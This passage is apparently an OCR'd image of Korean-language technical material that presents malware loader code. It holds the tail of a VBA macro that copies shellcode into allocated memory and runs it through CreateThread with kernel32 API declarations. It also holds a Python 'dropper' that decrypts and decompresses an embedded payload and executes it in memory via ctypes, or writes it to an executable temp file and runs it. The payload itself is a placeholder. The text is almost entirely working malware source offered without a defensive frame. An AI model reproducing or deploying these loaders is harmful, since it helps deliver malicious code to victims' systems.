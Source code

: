 ```vba
    
    ' 메모리에 셸코드 복사
    For i = 0 To Len(shellcode) - 1
        RtlMoveMemory addr + i, Mid(shellcode, i + 1, 1), 1
    Next
    
    ' 셸코드 실행 (별도 스레드 생성)
    Dim threadId As Long
    CreateThread 0, 0, addr, 0, 0, threadId
    
    AutoExecute = True
End Function

' API 선언
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, _
    ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal lpThreadAttributes As Long, _
    ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, _
    ByVal dwCreationFlags As Long, lpThreadId As Long) As LongPtr
Private Declare PtrSafe Sub RtlMoveMemory Lib "kernel32" (ByVal Destination As LongPtr, _
    ByVal Source As Any, ByVal Length As Long)
```

#### 4. Python PyInstaller 드로퍼

```python
import base64
import zlib
import ctypes
import sys
import tempfile
import os
from cryptography.fernet import Fernet

def decrypt_payload(key, encrypted_payload):
    """암호화된 페이로드 복호화"""
    f = Fernet(key)
    return f.decrypt(encrypted_payload)

def execute_payload():
    """암호화된 페이로드 추출 및 실행"""
    
    # 페이로드 및 키 (예시용 더미 데이터)
    key = b'pK-mDKo2XsRjP1q5BcHqDXXTlu1xjIZOLjrGwDtxS-M='
    encrypted_payload = b'gAAAAABid...[생략된 암호화 페이로드]...=='
    
    # 복호화
    payload = decrypt_payload(key, encrypted_payload)
    payload = zlib.decompress(payload)
    
    # 메모리에 페이로드 로드 및 실행
    if sys.platform.startswith('win'):
        # Windows 환경에서 메모리 실행
        buffer = ctypes.create_string_buffer(payload)
        function = ctypes.cast(buffer, ctypes.CFUNCTYPE(None))
        function()
    else:
        # Linux/macOS 환경에서 임시 파일 생성 후 실행
        with tempfile.NamedTemporaryFile(suffix='.bin', delete=False) as f:
            f.write(payload)
            f.flush()
            os.chmod(f.name, 0o755)
            os.system(f.name)
            os.unlink(f.name)
```